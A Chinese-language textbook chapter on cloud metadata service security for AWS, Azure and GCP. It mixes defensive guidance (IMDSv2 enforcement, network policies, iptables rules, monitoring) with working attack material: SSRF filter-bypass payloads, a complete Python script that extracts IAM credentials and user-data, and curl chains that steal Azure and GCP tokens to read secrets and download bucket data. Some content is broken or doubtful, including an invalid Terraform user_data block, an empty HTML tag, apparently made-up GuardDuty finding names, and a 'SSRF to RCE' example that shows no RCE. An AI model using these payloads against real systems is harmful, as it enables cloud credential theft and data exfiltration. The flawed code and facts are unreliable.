





## 19.3 云元数据服务安全

云元数据服务是云安全攻防中最关键的基础设施之一。几乎所有主流云厂商都提供元数据服务（Instance Metadata Service, IMDS），允许运行在虚拟机上的应用程序查询实例自身的配置信息。这个设计初衷是为了简化应用部署，但它同时也是云环境中最危险的攻击面之一——2019年Capital One数据泄露事件（影响1.06亿用户）的根本原因就是元数据服务被SSRF漏洞利用。

### 19.3.1 元数据服务的架构原理

元数据服务运行在虚拟化层的Hypervisor中，通过一个特殊的链路本地地址（Link-Local Address）向实例提供信息。这个地址在所有主流云平台上都是相同的：

```text
169.254.169.254
```

这个地址属于RFC 3927定义的链路本地地址范围（169.254.0.0/16），只在实例与Hypervisor之间的虚拟网络接口上可达，不会被路由到外部网络。



元数据服务的工作流程如下：

1. **实例启动**：Hypervisor为实例创建虚拟网络接口，绑定169.254.169.254的路由
2. **请求处理**：实例向该地址发起HTTP请求，Hypervisor拦截并响应
3. **数据注入**：Hypervisor从云控制平面获取实例配置，格式化为HTTP响应
4. **凭据轮换**：对于IAM角色，Hypervisor定期自动轮换临时凭据（通常每6-12小时）

关键安全特性：元数据流量**永远不会离开物理主机**，它在Hypervisor内部的虚拟交换机上处理，外部网络无法直接访问。

### 19.3.2 三大云厂商元数据服务对比

#### AWS Instance Metadata Service (IMDS)

AWS IMDS是业界最早也是最广泛研究的元数据服务。它提供两种版本：IMDSv1和IMDSv2（详见19.3.3节）。

```bash
# 基础信息端点
curl http://169.254.169.254/latest/meta-data/

# 常见敏感路径
/latest/meta-data/instance-id                    # 实例ID
/latest/meta-data/instance-type                  # 实例类型
/latest/meta-data/ami-id                         # AMI镜像ID
/latest/meta-data/local-ipv4                     # 内网IP
/latest/meta-data/public-ipv4                    # 公网IP
/latest/meta-data/security-groups                # 安全组
/latest/meta-data/iam/security-credentials/      # IAM角色名
/latest/meta-data/iam/security-credentials/<role> # 临时凭据
/latest/user-data                                # 启动脚本（可能含密码）
/latest/dynamic/instance-identity/document       # 实例身份文档（签名）
/latest/dynamic/instance-identity/signature      # PKCS7签名
```

IAM凭据端点返回的JSON结构：

```json
{
  "Code": "Success",
  "LastUpdated": "2024-01-15T08:30:00Z",
  "Type": "AWS-HMAC",
  "AccessKeyId": "ASIA...",
  "SecretAccessKey": "...",
  "Token": "FwoGZXIvYXdzEBYaDH...",
  "Expiration": "2024-01-15T14:30:00Z"
}
```

`user-data`端点特别危险——许多运维团队将启动脚本、数据库密码、配置密钥等硬编码在user-data中，这些内容在实例生命周期内随时可被读取。

#### Azure Instance Metadata Service (IMDS)

Azure IMDS的设计与AWS类似，但强制要求`Metadata: true`请求头：

```bash
# 必须携带Metadata头
curl -H "Metadata: true" \
  "http://169.254.169.254/metadata/instance?api-version=2021-02-01"

# 访问Azure AD（Entra ID）令牌
curl -H "Metadata: true" \
  "http://169.254.169.254/metadata/identity/oauth2/token?\
api-version=2018-02-01&resource=https://management.azure.com/"

# 常见敏感路径
/metadata/instance/compute/vmSize           # 虚机规格
/metadata/instance/compute/name             # 虚机名称
/metadata/instance/compute/resourceGroupName # 资源组
/metadata/instance/network/interface/       # 网络接口
/metadata/instance/compute/osProfile/adminPassword  # Linux密码（如有）
/metadata/instance/compute/userData         # 用户数据（Base64编码）
```

Azure AD令牌端点支持多种资源（resource参数）：

| resource 参数 | 用途 |
|---|---|
| `https://management.azure.com/` | Azure资源管理 |
| `https://storage.azure.com/` | 存储账户 |
| `https://vault.azure.net/` | Key Vault |
| `https://graph.microsoft.com/` | Microsoft Graph |
| `https://database.windows.net/` | SQL数据库 |

与AWS不同，Azure IMDS没有类似IMDSv2的PUT token机制——它依赖请求头验证，但攻击者可以通过SSRF注入自定义头部。

#### GCP Metadata Server

GCP的元数据服务位于不同的地址，且要求`Metadata-Flavor: Google`请求头：

```bash
# 基础信息
curl -H "Metadata-Flavor: Google" \
  "http://metadata.google.internal/computeMetadata/v1/"

# 服务账户令牌（最敏感）
curl -H "Metadata-Flavor: Google" \
  "http://metadata.google.internal/computeMetadata/v1/\
instance/service-accounts/default/token"

# 项目级元数据
curl -H "Metadata-Flavor: Google" \
  "http://metadata.google.internal/computeMetadata/v1/project/project-id"

# SSH公钥（可用于横向移动）
curl -H "Metadata-Flavor: Google" \
  "http://metadata.google.internal/computeMetadata/v1/\
instance/attributes/ssh-keys"

# 启动脚本
curl -H "Metadata-Flavor: Google" \
  "http://metadata.google.internal/computeMetadata/v1/\
instance/attributes/startup-script"

# 自定义元数据（常存放配置和密钥）
curl -H "Metadata-Flavor: Google" \
  "http://metadata.google.internal/computeMetadata/v1/\
instance/attributes/?recursive=true"
```

GCP的`Metadata-Flavor: Google`头提供了一定保护，但并非不可绕过。一些SSRF漏洞允许攻击者控制请求头。

### 19.3.3 IMDSv1 vs IMDSv2 深度解析

AWS提供两种版本的元数据服务，理解它们的区别对于攻防两端都至关重要。

#### IMDSv1：开放式访问

IMDSv1是最简单的HTTP GET请求，不需要任何特殊头部：

```bash
# 直接GET即可，无需认证
curl http://169.254.169.254/latest/meta-data/

# 获取IAM凭据
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/role-name
```

IMDSv1的致命缺陷在于：**任何能发出HTTP请求的地方都可以访问它**。这包括：

- SSRF漏洞（最常见）
- HTML中的``标签
- 浏览器中的XMLHttpRequest
- 任何HTTP客户端库

#### IMDSv2：基于会话的访问

IMDSv2引入了会话令牌机制，要求先通过PUT请求获取临时令牌：

```bash
# 步骤1：获取会话令牌（PUT请求）
TOKEN=$(curl -X PUT "http://169.254.169.254/latest/api/token" \
  -H "X-aws-ec2-metadata-token-ttl-seconds: 21600")

# 步骤2：使用令牌访问元数据
curl -H "X-aws-ec2-metadata-token: $TOKEN" \
  http://169.254.169.254/latest/meta-data/
```

IMDSv2的安全增强点：

| 特性 | IMDSv1 | IMDSv2 |
|---|---|---|
| 访问方式 | 任意GET请求 | 需要先PUT获取token |
| 请求头 | 无要求 | 必须携带token头 |
| 攻击面 | SSRF可直接利用 | SSRF难以利用（需要控制HTTP方法和头部） |
| Token限制 | 无 | 1-21600秒TTL |
| Hop限制 | 1（默认） | 默认1，可配置（最大64） |
| IP绑定 | 无 | Token绑定到请求实例的源IP |
| 防御HTTP重定向 | 不防 | PUT请求不允许重定向 |

**Hop Limit（跳数限制）**是IMDSv2最重要的安全特性之一：

```bash
# 查看当前hop limit
aws ec2 describe-instances --instance-ids i-xxx \
  --query 'Reservations[].Instances[].MetadataOptions.HttpPutResponseHopLimit'

# 设置hop limit为1（最安全，仅实例自身可达）
aws ec2 modify-instance-metadata-options \
  --instance-id i-xxx \
  --http-put-response-hop-limit 1
```

Hop Limit控制IP数据包的TTL字段。当设置为1时，只有直接连接到Hypervisor的实例能获取响应——任何转发（包括NAT网关、代理、容器桥接网络）都会将TTL减为0，导致请求失败。这是防御容器逃逸场景下元数据访问的关键机制。

#### IMDSv2的绕过技术

尽管IMDSv2大幅提高了攻击难度，但在特定条件下仍可被绕过：

**绕过条件1：SSRF漏洞允许控制HTTP方法和头部**

如果SSRF漏洞允许发送任意HTTP方法（如通过cURL/Python requests），攻击者可以：
```python
import requests

# 获取token
token = requests.put(
    'http://169.254.169.254/latest/api/token',
    headers={'X-aws-ec2-metadata-token-ttl-seconds': '21600'}
).text

# 使用token访问凭据
creds = requests.get(
    'http://169.254.169.254/latest/meta-data/iam/security-credentials/role-name',
    headers={'X-aws-ec2-metadata-token': token}
).json()
print(creds)
```

**绕过条件2：Hop Limit > 1**

如果实例的hop limit设置大于1（某些容器环境默认为2），则容器内的请求可以穿过至少一跳到达元数据服务。

**绕过条件3：通过实例的其他漏洞**

如果攻击者已获得实例上的命令执行权限（如RCE漏洞），可以直接在实例内部发起请求，不受IMDSv2限制。

### 19.3.4 元数据服务攻击技术

#### 攻击1：SSRF提取IAM凭据

这是最经典的元数据服务攻击。完整攻击流程：



**利用SSRF漏洞的实战Payload**：

```bash
# 常见SSRF测试payload（各种变体绕过WAF）
# 基础形式
http://169.254.169.254/latest/meta-data/

# IPv6形式（部分云平台支持）
http://[fd00:ec2::254]/latest/meta-data/

# 十进制IP（绕过字符串过滤）
http://2852039166/latest/meta-data/
# 2852039166 = 169*256^3 + 254*256^2 + 169*256 + 254

# 八进制IP
http://0251.0376.0251.0376/latest/meta-data/

# 通过DNS重绑定（需要控制DNS服务器）
http://attacker-controlled-domain.com → 解析为 169.254.169.254

# 通过URL编码绕过
http://%31%36%39%2e%32%35%34%2e%31%36%39%2e%32%35%34/latest/meta-data/

# 通过重定向绕过
# 攻击者服务器返回302重定向到169.254.169.254
```

**自动化凭据提取脚本**：

```python
#!/usr/bin/env python3
"""AWS 元数据凭据提取工具 - 用于安全测试"""
import requests
import json
import sys

METADATA_BASE = "http://169.254.169.254/latest/meta-data"

def check_imds_version():
    """检测IMDS版本"""
    try:
        # 尝试IMDSv1
        resp = requests.get(f"{METADATA_BASE}/", timeout=3)
        if resp.status_code == 200:
            print("[+] IMDSv1 可用（无认证）")
            return "v1"
    except:
        pass

    try:
        # 尝试IMDSv2
        resp = requests.put(
            "http://169.254.169.254/latest/api/token",
            headers={"X-aws-ec2-metadata-token-ttl-seconds": "21600"},
            timeout=3
        )
        if resp.status_code == 200:
            print("[+] IMDSv2 可用（需token）")
            return "v2"
    except:
        pass

    print("[-] 元数据服务不可达")
    return None

def get_iam_credentials(version):
    """提取IAM临时凭据"""
    headers = {}

    if version == "v2":
        token_resp = requests.put(
            "http://169.254.169.254/latest/api/token",
            headers={"X-aws-ec2-metadata-token-ttl-seconds": "21600"}
        )
        headers["X-aws-ec2-metadata-token"] = token_resp.text

    # 获取角色列表
    roles_resp = requests.get(
        f"{METADATA_BASE}/iam/security-credentials/", headers=headers
    )
    if roles_resp.status_code != 200:
        print("[-] 未附加IAM角色")
        return

    roles = roles_resp.text.strip().split("\n")
    print(f"[+] 发现IAM角色: {roles}")

    for role in roles:
        cred_resp = requests.get(
            f"{METADATA_BASE}/iam/security-credentials/{role}",
            headers=headers
        )
        creds = cred_resp.json()
        print(f"\n=== 角色: {role} ===")
        print(f"AccessKeyId:     {creds['AccessKeyId']}")
        print(f"SecretAccessKey: {creds['SecretAccessKey']}")
        print(f"Token:           {creds['Token'][:50]}...")
        print(f"Expiration:      {creds['Expiration']}")

    return creds

def get_user_data(version):
    """提取实例启动脚本"""
    headers = {}
    if version == "v2":
        token_resp = requests.put(
            "http://169.254.169.254/latest/api/token",
            headers={"X-aws-ec2-metadata-token-ttl-seconds": "21600"}
        )
        headers["X-aws-ec2-metadata-token"] = token_resp.text

    resp = requests.get(
        "http://169.254.169.254/latest/user-data", headers=headers
    )
    if resp.status_code == 200 and resp.text:
        print(f"\n[!] 发现用户数据:\n{resp.text[:500]}")
    return resp.text if resp.status_code == 200 else None

if __name__ == "__main__":
    version = check_imds_version()
    if version:
        get_iam_credentials(version)
        get_user_data(version)
```

#### 攻击2：利用user-data泄露敏感配置

EC2实例的user-data在实例运行期间随时可读，许多团队将敏感配置硬编码其中：

```bash
# 典型的危险user-data内容
#!/bin/bash
# 数据库密码明文存储
export DB_PASSWORD="MyS3cretP@ss"
export REDIS_PASSWORD="r3d1s_p@ss"
export API_KEY="sk-1234567890abcdef"

# 内部服务地址
export INTERNAL_API="http://10.0.1.50:8080"

# 下载配置（含密钥）
aws s3 cp s3://config-bucket/prod.env /etc/app/.env
```

攻击者通过SSRF读取user-data即可获取所有这些敏感信息。

#### 攻击3：容器内的元数据逃逸

在容器环境中，元数据服务面临更复杂的攻击场景：



**容器网络模式对元数据访问的影响**：

| 网络模式 | 元数据可达 | 说明 |
|---|---|---|
| host模式 | 直接可达 | 容器共享宿主机网络栈 |
| bridge模式（Docker） | 需NAT | 通过docker0桥接，可能绕过hop限制 |
| awsvpc模式（ECS） | 需hop>1 | 每个任务独立ENI |
| Kubernetes Pod | 默认可达 | Pod共享网络命名空间 |
| Calico/Cilium策略 | 取决于策略 | 网络策略可封锁169.254.169.254 |

**Kubernetes中封锁元数据访问的网络策略**：

```yaml
# NetworkPolicy: 拒绝Pod访问元数据服务
apiVersion: networking.k8s.io/v1
kind: NetworkPolicy
metadata:
  name: deny-metadata-access
  namespace: production
spec:
  podSelector: {}
  policyTypes:
  - Egress
  egress:
  - to:
    - ipBlock:
        cidr: 0.0.0.0/0
        except:
        - 169.254.169.254/32
    ports:
    - protocol: TCP
      port: 80
    - protocol: TCP
      port: 443
```

#### 攻击4：Azure AD令牌窃取

Azure VM可以获取Azure AD（Entra ID）访问令牌，这些令牌可直接用于操作Azure资源：

```bash
# 获取Azure AD令牌
TOKEN=$(curl -s -H "Metadata: true" \
  "http://169.254.169.254/metadata/identity/oauth2/token?\
api-version=2018-02-01&resource=https://management.azure.com/" \
  | jq -r '.access_token')

# 列出订阅下的所有资源
curl -s -H "Authorization: Bearer $TOKEN" \
  "https://management.azure.com/subscriptions/{sub-id}/resources?\
api-version=2021-04-01" | jq '.value[].name'

# 访问Key Vault中的密钥
curl -s -H "Authorization: Bearer $TOKEN" \
  "https://my-vault.vault.azure.net/secrets?api-version=7.3" | jq '.value[].id'
```

Azure AD令牌的威力取决于VM的托管身份（Managed Identity）被赋予的权限。如果身份拥有Contributor或更高权限，攻击者可以：创建新VM、读取存储账户、访问数据库、修改网络配置等。

#### 攻击5：GCP服务账户令牌滥用

```bash
# 获取GCP服务账户令牌
TOKEN=$(curl -s -H "Metadata-Flavor: Google" \
  "http://metadata.google.internal/computeMetadata/v1/\
instance/service-accounts/default/token" | jq -r '.access_token')

# 列出GCS存储桶
curl -s -H "Authorization: Bearer $TOKEN" \
  "https://storage.googleapis.com/storage/v1/b" | jq '.items[].name'

# 读取Cloud Storage对象
curl -s -H "Authorization: Bearer $TOKEN" \
  "https://storage.googleapis.com/download/storage/v1/b/BUCKET/o/\
OBJECT?alt=media" -o stolen_file

# 列出Compute Engine实例
curl -s -H "Authorization: Bearer $TOKEN" \
  "https://compute.googleapis.com/compute/v1/projects/PROJECT/zones/\
ZONE/instances" | jq '.items[].name'
```

### 19.3.5 真实案例分析

#### Capital One数据泄露事件（2019年）

这是元数据服务被利用造成最大损失的安全事件：

**攻击时间线**：

| 时间 | 事件 |
|---|---|
| 2019年3月 | 攻击者发现Capital One的WAF配置错误 |
| 2019年3-7月 | 通过SSRF漏洞访问元数据服务获取IAM凭据 |
| 持续数月 | 利用IAM凭据枚举S3存储桶 |
| 2019年7月17日 | GitHub上出现攻击者的Gist（含攻击细节） |
| 2019年7月19日 | Capital One发现并公开披露 |
| 2019年7月29日 | 攻击者Paige Thompson被FBI逮捕 |

**攻击技术细节**：

1. Capital One的WAF（ModSecurity）配置错误，允许SSRF请求到达内部服务
2. 攻击者利用SSRF访问EC2元数据服务，获取附加在WAF EC2实例上的IAM角色凭据
3. 该IAM角色拥有`s3:ListAllMyBuckets`、`s3:GetObject`等权限
4. 攻击者列出并下载了700多个S3存储桶中的数据
5. 泄露数据包括1.06亿用户的姓名、地址、信用评分、社保号等

**关键教训**：
- WAF不能替代IAM最小权限原则
- 元数据服务应限制IAM角色的权限范围
- 临时凭据的权限应精确到具体资源和操作
- 应监控IAM凭据的异常使用模式

#### SSRF to RCE via Lambda（2023年研究）

安全研究员发现了一种将SSRF升级为RCE的方法：

```python
# 通过Lambda的元数据服务获取STS凭据
# Lambda使用不同的元数据端点
import requests

# AWS Lambda 元数据端点（AWS_LAMBDA_RUNTIME_API）
resp = requests.get(
    "http://127.0.0.1:9001/2018-06-01/runtime/invocation/next"
)

# Lambda环境变量可能包含敏感信息
import os
env_vars = {k: v for k, v in os.environ.items()
            if 'KEY' in k or 'SECRET' in k or 'PASSWORD' in k}
print(env_vars)
```

### 19.3.6 防御策略与最佳实践

#### 第一层：强制IMDSv2

```bash
# 强制所有新实例只使用IMDSv2
aws ec2 modify-instance-metadata-options \
  --instance-id i-xxx \
  --http-tokens required \
  --http-endpoint enabled \
  --http-put-response-hop-limit 1

# 使用CloudFormation/Terraform在基础设施即代码中强制
```

**Terraform配置示例**：

```hcl
resource "aws_instance" "secure_instance" {
  ami           = "ami-xxx"
  instance_type = "t3.micro"

  metadata_options {
    http_endpoint               = "enabled"
    http_tokens                 = "required"   # 强制IMDSv2
    http_put_response_hop_limit = 1            # 最小hop限制
    instance_metadata_tags      = "disabled"   # 禁用标签元数据
  }

  # 禁用用户数据中的敏感信息
  user_data = base64encode(#!/bin/bash
    # 不要在这里放密码！
    # 使用AWS Secrets Manager或SSM Parameter Store
    DB_PASS=$(aws secretsmanager get-secret-value \
      --secret-id prod/db/password --query SecretString --output text)
  )
}
```

#### 第二层：IAM最小权限

```json
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Sid": "RestrictToSpecificBucket",
      "Effect": "Allow",
      "Action": [
        "s3:GetObject",
        "s3:PutObject"
      ],
      "Resource": "arn:aws:s3:::my-app-bucket/*",
      "Condition": {
        "IpAddress": {
          "aws:SourceIp": ["10.0.0.0/8", "172.16.0.0/12"]
        }
      }
    }
  ]
}
```

关键原则：
- **每个应用独立角色**：不要共享IAM角色，每个服务一个独立角色
- **资源级限制**：精确到具体的S3桶、数据库实例
- **条件约束**：添加IP范围、VPC端点等条件
- **禁用sts:AssumeRole**：除非明确需要跨账户访问

#### 第三层：网络层防护



**iptables规则封锁元数据地址**：

```bash
# 在实例级别封锁元数据（适用于不需要元数据的服务）
iptables -A OUTPUT -d 169.254.169.254 -j DROP

# 只允许特定用户访问
iptables -A OUTPUT -d 169.254.169.254 -m owner --uid-owner root -j ACCEPT
iptables -A OUTPUT -d 169.254.169.254 -j DROP
```

#### 第四层：监控与检测

```bash
# CloudTrail查询：检测元数据凭据的异常使用
aws cloudtrail lookup-events \
  --lookup-attributes AttributeKey=EventName,AttributeValue=AssumeRole \
  --start-time 2024-01-15T00:00:00Z

# GuardDuty检测项：
# - UnauthorizedAccess:IAMUser/InstanceCredentialExfiltration
# - Recon:IAMUser/MetadataSsmAccess
# - Policy:IAMUser/MetadataCredentialUsage
```

**自定义CloudWatch告警规则**：

```json
{
  "MetricName": "MetadataCredentialUsage",
  "Namespace": "Security",
  "Dimensions": [],
  "Statistic": "Sum",
  "Period": 300,
  "EvaluationPeriods": 1,
  "Threshold": 0,
  "ComparisonOperator": "GreaterThanThreshold",
  "AlarmActions": ["arn:aws:sns:region:account:security-alerts"]
}
```

#### 第五层：替代方案——VPC端点

对于完全不需要元数据的服务，可以使用IAM角色的VPC端点（VPC Endpoint）替代元数据服务：

```bash
# 创建S3 VPC端点（不经过互联网）
aws ec2 create-vpc-endpoint \
  --vpc-id vpc-xxx \
  --service-name com.amazonaws.region.s3 \
  --route-table-ids rtb-xxx \
  --policy-document file://s3-endpoint-policy.json
```

### 19.3.7 安全检测工具

| 工具 | 用途 | 链接 |
|---|---|---|
| ScoutSuite | 多云安全审计，检测IMDS配置 | github.com/nccgroup/ScoutSuite |
| Prowler | AWS安全评估，含IMDSv2检查 | github.com/prowler-cloud/prowler |
| CloudMapper | AWS网络可视化和安全分析 | github.com/duo-labs/cloudmapper |
| Pacu | AWS渗透测试框架 | github.com/RhinoSecurityLabs/pacu |
| CloudFox | 云环境资产发现和攻击面映射 | github.com/BishopFox/cloudfox |
| imdsv2_toggle | 批量切换EC2实例IMDS版本 | github.com/bridgecrewio/imdsv2_toggle |

**Prowler检测IMDS配置**：

```bash
# 安装prowler
pip install prowler

# 运行IMDS相关检查
prowler aws --checks ec2_instance_imdsv2_enabled \
            ec2_instance_user_data_no_secrets \
            ec2_iam_role_no_overly_permissive

# 输出报告
prowler aws -M html -o ./reports/
```

**使用Pacu进行元数据服务渗透测试**：

```bash
# 在Pacu中加载EC2模块
Pacu> run ec2__enum

# 利用泄露的元数据凭据
Pacu> set_keys --access_key ASIA... --secret_key ... --session_token ...

# 枚举可用权限
Pacu> iam__enum_permissions

# 横向移动
Pacu> ec2__startup_shell_scripts  # 提取所有实例的user-data
```

### 19.3.8 各云平台元数据服务安全特性对比

| 安全特性 | AWS IMDSv2 | Azure IMDS | GCP Metadata | 阿里云 ECS |
|---|---|---|---|---|
| 默认认证机制 | PUT Token | 请求头 | 请求头 | 请求头 |
| 防SSRF能力 | 强（需PUT+头） | 中（需请求头） | 中（需请求头） | 弱（默认无认证） |
| Hop限制 | 支持（1-64） | 不支持 | 不支持 | 不支持 |
| IP绑定 | 是 | 否 | 否 | 否 |
| 可完全禁用 | 是 | 是 | 是 | 是 |
| 凭据自动轮换 | 6-12小时 | 24小时 | 1小时 | 未知 |
| 标签/自定义数据 | 支持 | 支持 | 支持 | 支持 |

### 19.3.9 常见误区与纠偏

**误区1："IMDSv2完全安全，不需要其他防护"**

IMDSv2只防御从外部通过SSRF访问元数据的场景。如果攻击者已获得实例上的命令执行权限（如通过RCE漏洞），IMDSv2无法阻止。真正的安全需要深度防御：IMDSv2 + IAM最小权限 + 网络隔离 + 监控。

**误区2："IAM凭据有TTL就不用担心泄露"**

临时凭据的默认TTL为6-12小时。在这段时间内，攻击者可以执行任意操作。而且凭据会在到期前自动轮换，攻击者可以通过API调用保持会话活性。必须监控凭据使用模式，而非仅依赖TTL。

**误区3："容器在VPC内，元数据访问是安全的"**

容器的网络隔离取决于配置。host网络模式、默认的bridge模式、以及hop limit > 1的配置都可能允许容器访问元数据服务。应明确设置hop limit为1，并通过网络策略封锁169.254.169.254。

**误区4："禁用元数据服务就能解决问题"**

禁用IMDS会导致许多云功能失效：自动扩缩、CloudWatch代理、Systems Manager、CodeDeploy等都依赖元数据服务。正确做法是限制访问范围，而非完全禁用。

**误区5："只监控出站流量就够了"**

元数据服务的流量在Hypervisor内部处理，不会出现在实例的出站流量中。必须在应用层监控（如审计curl命令、HTTP库日志）或使用CloudTrail等云原生监控工具。

### 19.3.10 进阶：元数据服务的未来发展

#### 短期令牌（Ephemeral Tokens）

AWS正在研究更短TTL的令牌（秒级），减少凭据泄露的时间窗口。

#### 硬件级隔离

新一代Hypervisor（如AWS Nitro）正在实现元数据服务的硬件级隔离，通过专用安全芯片处理敏感请求，降低软件漏洞导致的泄露风险。

